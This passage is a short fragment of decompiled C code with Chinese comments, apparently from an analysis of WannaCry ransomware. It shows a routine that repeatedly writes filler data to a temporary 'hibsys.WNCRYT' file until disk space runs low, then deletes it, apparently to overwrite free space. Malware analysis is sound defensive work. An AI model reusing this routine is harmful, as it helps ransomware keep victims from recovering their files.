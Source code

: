 ```c
&& TotalNumberOfFreeBytes.QuadPart > 0x40000000 )  

{  

index = 0;  

while ( WriteFile(hFile, hGlobal_1, 0xA00000u, &NumberOfBytesWritten, 0) )// 将0xA00000个字节的5写入到hibsys.WNCRYT  

{  

Sleep(0xAu);  

if ( (unsigned int)++index >= 20 )// 循环写入20次  

{  

Sleep(10000u);  

if ( !dword_1000DD8C )  

goto LABEL_6;                 // 当磁盘剩余空间不足时跳出循环  

break;  

}  

}  

}  

}  

GlobalFree(hGlobal_1);                  // 释放申请的内存  

FlushFileBuffers(hFile);                // 刷新文件缓冲区  

CloseHandle(hFile);  

hGlobal = (void *)DeleteFileW(&FileName);// 删除临时目录文件夹下的hibsys.WNCRYT  

}  

}  

}  

return hGlobal;  

} 
```
